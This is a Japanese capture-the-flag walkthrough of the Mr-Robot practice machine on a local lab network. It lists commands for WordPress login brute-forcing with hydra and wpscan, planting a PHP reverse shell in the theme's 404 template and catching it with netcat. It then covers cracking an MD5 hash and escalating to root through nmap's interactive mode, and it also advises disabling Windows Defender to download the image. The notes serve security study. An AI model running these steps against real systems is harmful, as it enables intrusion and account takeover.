 ## Mr-Robot 788~

## ダウンロードできない問題
- WindowsDefenderがウィルスを感知してダウンロードできないので、ネットでoffにするのを調べてからダウンロードする。ダウンロードしたら、Defenderをまた有効にする

1. 「スタート」ボタン-「設定」の順にクリックします。
2.  Windowsの設定が表示されたら、「更新とセキュリティ」- 「Windows セキュリティ」-「ウイルスと脅威の防止」の順にクリックします。
3.  Windowsのセキュリティ画面が表示されたら、「ウイルスと脅威の防止の設定」にある「設定の管理」をクリックします。
4. 「リアルタイム保護」の設定を「オフ」に切り替えて、「はい」をクリックします。

## wordpressにログインできない
- 一度最後まで通してやるとログインできなかったり不都合があるので、もう一度削除してインストールをする

### ポートスキャンまで同じ
- 22はcloseになっているので注意
- 80, 443
### ブラウザでアクセスする
- サイトを探索する
- robots.txtを見る
  - `curl $IP/robots.txt`


### ダウンロードしたファイルの整理
- このファイルはhydraの辞書として使う。
- `wget http://192.168.56.116/key-1-of-3.txt`
- `wget http://192.168.56.116/fsocity.dic`
- fsocity.dicの中味を確認して、多いので整理する
  - `cat fsocity.dic`
  - `wc fsocity.dic`
  - `cat fsocity.dic | sort | uniq > filtered_fsocity.dic`

### 解きやすいように小さいファイルを作る
- ここではユーザ名とパスワードがわかっているとして、学習のため小さいファイルを作る
- `grep -A 5 -B 10 ER28 filter_fsocity.dic > short-txt.dic`
- `grep -C 10 elliot filter_fsocity.dic >> short-txt.dic` 

### NIKTO
- `nikto -h $URL` 結構時間がかかる
- いくつかサイトがあるのでメモっておく
  - `/wp-login.php` 
  - `/license.txt`

### ユーザログインのパスワードを見つける(3通りある)
- (1)ファイルに書いてある
  - `/license.txt`の一番下に怪しい文字列があるのでコピーしておく
  - さっきの文字列の最後に`=`があったのでbase64で暗号化されていると思われるので、でコードする
  - `echo ペースト | base64 --decode`
  - ユーザ名(elliot)とパスワード(ER28-0652)がわかる
- (2)hydraを使う
  - `hydra $IP -L short-txt.dic -p test http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.123%2Fwp-admin%2F&testcookie=1:username"`
  - elliotが見つかる
  - `hydra $IP -l elliot -P short-txt.dic http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.123%2Fwp-admin%2F&testcookie=1:is incorrect"` 

- (3)wpscanを使う
  - `wpscan --url http://$IP --usernames short-txt.dic --passwords short-txt.dic` 

### wordpressのユーザにログインする
- `http://192.168.56.116/wp-login`
- ユーザ名とパスワードを入力するとダッシュボードにアクセスできる

### phpリバースシェルの準備
- この2つのどちらからでもいいのでコードをコピーしてくる
  - cd /usr/share/webshells/php ; cat php-reverse-shell.php
  - https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- ダッシュボードで`Appearance`->`Editor`->`404 Template`を選んで、一度全部削除してさっきのコピーをペーストする
- コードの中の一部を書き換える
  - IPアドレスをParrotOSのアドレス
  - ポート番号は5555とする
- 下の方にupdate fileボタンがあるので押す

### リバースシェルの待ち受け
- ParrotOSでもうひとつターミナルを開けて次のコマンドを打つ
- `nc -nlvp 5555`
  - もしncコマンドがなければ、NATにつなげて`sudo apt install netcat-traditinal`でインストールする 
- ブラウザでサイトにアクセスするとシェルを取得できる
  - `http://ターゲットサーバのIPアドレス/404.php`
- いつも通りにPythonで対話型シェルにする
  - `python -c "import pty; pty.spawn('/bin/bash')"`
  - daemonユーザになる

### daemonユーザでいつもの試す
- ユーザを取得したらすること
  - `sudo -l` パスワードがわからない
  - `SUID` nmapコマンドはない 

### システム内を探索する
- `cd /home/robot ; ls`
- `cat password.raw-md5`暗号があるので、コピーする

### オンラインハッシュクラッカーでハッシュ値を解読する
- 本ではサイトを使っている。md5は元に戻せないので、オンラインサイト(Crack Station)の辞書で戻す
- 答えを書いておくと
  - abcdefghijklmnopqrstuvwxyz
- john the ripperでもできる。ただし暗号の種類が書いていないので--fomatで自分で指定する。しないとエラーになる
- `sudo john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
### 別のユーザに切り替える
- `su robot`

### SUIDファイルを探索する
- `find / -perm -u=s  -type f 2> /dev/null`

### SUIDファイルを利用して、ルートシェルを取得する
- `nmap --interactive`
- `!sh`

### フラグを取得する
- `cd /root; cat key-3-of-3.txt`
